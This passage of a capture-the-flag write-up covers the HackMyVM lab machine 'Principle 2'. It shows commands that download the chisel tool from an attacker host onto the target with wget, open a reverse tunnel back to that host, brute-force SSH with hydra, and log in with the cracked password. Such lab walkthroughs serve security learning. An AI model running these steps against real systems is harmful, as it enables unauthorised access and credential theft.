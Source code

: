 We check which version of chisel we need:

```
$ uname -a
Linux principle2 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
```

We need the amd64 version of chisel, and copy the binary from our host to [Principle 2][2].
To do this, we will mount an http server in our host, in the directory where we have the chisel binaries, with python:

```
$ python -m http.server 443
```

And, in [Principle 2][2], we download the chisel bynary from our host:

```
$ wget http://10.0.0.1:443/chisel_1.9.1_linux_amd64
$ mv chisel_1.9.1_linux_amd64 chisel
$ chmod 700 chisel
```

Once copied, we will start the chisel server on our host:

```
$ ./chisel_1.9.1_linux_amd64 server --reverse 8080
```

And now, we will start the chisel client on [Principle 2][2]:

```
$ ./chisel client 10.0.0.1:8080 R:22222:127.0.0.1:345
```

#### Hydra

Once stablished the reverse proxy we will bruteforce the password from our host using hydra:

```
$ hydra -l melville -P /tmp/neighbors_password.txt -s 22222 127.0.0.1 ssh -f -o /tmp/melvile_pasword.txt
```

```
$ cat /tmp/melville_password.txt
... password: 1bd5528b6def9812acba8eb21562c3ec
```

## Melville

We connect as Melville using ssh:

```
$ ssh -p 22222 melville@localhost

root is watching you, it has a record of all your steps:
```


[1]: https://kaianperez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle2